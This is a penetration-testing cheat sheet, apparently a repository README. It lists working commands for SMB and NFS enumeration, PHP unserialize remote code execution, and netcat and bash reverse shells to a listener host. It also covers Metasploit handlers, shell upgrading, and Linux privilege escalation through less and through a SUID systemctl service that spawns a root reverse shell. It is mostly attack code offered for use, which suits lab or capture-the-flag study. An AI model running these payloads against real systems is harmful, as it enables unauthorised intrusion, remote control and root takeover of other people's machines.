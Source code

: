 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```

## Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
OR
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```
$^Z
$stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```


## Privilege Escalation:

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
